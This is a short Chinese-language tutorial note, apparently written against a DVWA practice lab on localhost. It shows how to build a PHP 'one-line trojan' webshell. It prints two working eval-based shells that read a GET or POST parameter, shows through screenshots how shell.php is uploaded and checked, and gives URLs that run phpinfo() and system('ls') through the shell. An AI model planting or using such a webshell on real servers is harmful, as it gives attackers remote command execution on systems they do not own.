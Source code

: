 # 一句话木马Webshell

```

<?php @eval($_GET[command]);?>

<?php @eval($_POST[command]);?>

```



#### 木马上传

> 制作木马php

<img src="https://tva1.sinaimg.cn/large/007S8ZIlgy1ggksuhtvthj30vo0kaam7.jpg" alt="image-20200709162716117" style="zoom:50%;" />

<img src="/Users/oo/Library/Application Support/typora-user-images/image-20200709162819750.png" alt="image-20200709162819750" style="zoom:50%;" />



> 上传php文件

<img src="https://tva1.sinaimg.cn/large/007S8ZIlgy1ggkszvu6wmj31f80rcwhv.jpg" alt="image-20200709163228706" style="zoom: 33%;" />

> 检查是否上传成功
>
> > 页面为空白说明php被服务器解析成功

<img src="https://tva1.sinaimg.cn/large/007S8ZIlgy1ggkt3wqvq3j31tc0o8go8.jpg" alt="image-20200709163621768" style="zoom: 33%;" />

#### 木马使用

> 木马利用方法1

```

http://127.0.0.1/hackable/uploads/shell.php?command=phpinfo();//打印服务器信息

http://127.0.0.1/hackable/uploads/shell.php?command=system(%27ls%27);//终端   ls

```



